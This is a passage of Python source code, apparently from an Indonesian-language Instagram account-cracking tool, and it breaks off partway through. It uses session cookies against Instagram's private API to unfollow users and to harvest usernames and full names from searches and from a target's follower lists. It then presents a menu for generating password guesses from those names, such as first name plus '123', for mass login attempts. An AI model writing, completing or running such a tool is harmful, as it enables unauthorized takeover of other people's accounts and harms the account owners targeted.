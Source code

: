		data = json.dumps({'_uuid': uuid,
                           '_uid': username_id,
                           'user_id': user_id,
                           '_csrftoken': crf_token})

		self.payload = 'signed_body={}.{}&ig_sig_key_version=4'.format(
			self.generateUUID(False),
			urllib.request.quote(data))
		return s.post('https://i.instagram.com/api/v1/friendships/destroy/%s/'%(user_id),self.payload,cookies=cookie).text


	def searchAPI(self,cookie,nama):
		try:
			x=s.get('https://www.instagram.com/web/search/topsearch/?count=100000&context=blended&query=%s&rank_token=0.21663777590422106&include_reel=true'%(nama),cookies=cookie,headers={"user-agent":USN})
			x_jason=json.loads(x.text)
			for i in x_jason['users']:
				user=i['user']
				username=user['username']
				fullname=user['full_name']
				internal.append(f'{username}|{fullname}')
		except requests.exceptions.ConnectionError:
			exit(f'\n [{M}!{C}] Koneksi internet bermasalah')
		return internal

	def idAPI(self,cookie,id):
		try:
			m=s.get('https://www.instagram.com/%s/?__a=1'%(id),cookies=cookie,headers={"user-agent":USN})
			m_jason=m.json()["graphql"]["user"]
			idx=m_jason["id"]

		except requests.exceptions.ConnectionError:
			exit(f"\n{M}┣[!] Koneksi internet bermasalah{C}")
		except Exception as e:
			exit(f"\n{M}┣[!] Username yang anda masukan tidak di temukan pastikan target bersifat publik{C}")
		return idx

	def infoAPI(self,cookie,api,id):
		try:
			x=s.get(api%(id),cookies=cookie,headers={"user-agent":USN})
			x_jason=json.loads(x.text)
			for i in x_jason['users']:
				username = i["username"]
				nama = i["full_name"]
				internal.append(f'{username}|{nama}')
				following.append(username)
		except requests.exceptions.ConnectionError:
			exit(f'\n{M}┣[!] Koneksi internet bermasalah{C}')
		except Exception as e:
			print(f'\n{M}┣[!] Username yang anda masukan tidak di temukan{C}')
		return internal

	def passwordAPI(self,xnx):
		print(f'\n{CY}┣[+] Total id >> [{H}{len(internal)}{C}]')
		print(f"""{CY}
┣[ Pilihan Kombinasi Password ]
┃
┣[1] FirstName+123
┣[2] FirtsName+123,FullName
┣[3] FirstName+123,FullName,Full Name{C}
		""")
		c=input(f'{CY}┣[•] Masukan Pilihan No :{C} ')
		if c=='1':
			self.generateAPI(xnx,c)
		elif c=='2':
			self.generateAPI(xnx,c)